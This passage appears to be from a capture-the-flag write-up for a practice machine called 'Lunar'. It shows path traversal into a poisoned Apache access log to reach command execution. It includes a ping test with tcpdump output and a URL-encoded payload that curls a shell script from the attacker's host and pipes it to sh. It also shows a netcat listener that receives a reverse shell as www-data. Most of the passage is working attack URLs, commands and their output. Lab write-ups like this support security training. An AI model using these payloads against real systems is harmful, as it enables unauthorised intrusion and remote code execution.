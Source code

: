   Now that we have poisoined the log lets check if it really worked
  
  I'll ping my device to confirm if it works
  
  ```
  ──(mark__haxor)-[~/_/Pg/Practice/Lunar/backup]
└─$ sudo tcpdump -i tun0 icmp
[sudo] password for mark: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Now the payload should be like this `http://192.168.66.216/dashboard.php?show=pending/../../../../../var/log/apache2/access.log&cmd=ping%20-c%202%20192.168.49.66&ext=`

Navigating to that it loads and on checking tcpdump we get a ping request 

```
┌──(mark__haxor)-[~/_/Pg/Practice/Lunar/backup]
└─$ sudo tcpdump -i tun0 icmp
[sudo] password for mark: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:23:12.621124 IP 192.168.66.216 > haxor: ICMP echo request, id 1, seq 1, length 64
17:23:12.621195 IP haxor > 192.168.66.216: ICMP echo reply, id 1, seq 1, length 64
17:23:13.642481 IP 192.168.66.216 > haxor: ICMP echo request, id 1, seq 2, length 64
17:23:13.642504 IP haxor > 192.168.66.216: ICMP echo reply, id 1, seq 2, length 64
17:23:13.949584 IP 192.168.66.216 > haxor: ICMP echo request, id 2, seq 1, length 64
17:23:13.949613 IP haxor > 192.168.66.216: ICMP echo reply, id 2, seq 1, length 64
17:23:15.076747 IP 192.168.66.216 > haxor: ICMP echo request, id 2, seq 2, length 64
17:23:15.076764 IP haxor > 192.168.66.216: ICMP echo reply, id 2, seq 2, length 64
```

Now lets get a reverse shell 

Here's the reverse shell payload used and its basically `curl 192.168.49.66:1337/shell.sh|sh` but url encoded

```
%63%75%72%6c%20%31%39%32%2e%31%36%38%2e%34%39%2e%36%36%3a%31%33%33%37%2f%73%68%65%6c%6c%2e%73%68%7c%73%68 
```

And i created a file called shell.sh which has a python reverse shell payload which i then hosted a python web server on port 1337

Also i'll set a netcat listener on port 80

Here's how the final payload should be

```
http://192.168.66.216/dashboard.php?show=pending/../../../../../var/log/apache2/access.log&cmd=%63%75%72%6c%20%31%39%32%2e%31%36%38%2e%34%39%2e%36%36%3a%31%33%33%37%2f%73%68%65%6c%6c%2e%73%68%7c%73%68&ext=
```

Back on the netcat listener we get a reverse shell

```
┌──(mark__haxor)-[~/_/Pg/Practice/Lunar/backup]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.49.66] from (UNKNOWN) [192.168.66.216] 40454
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
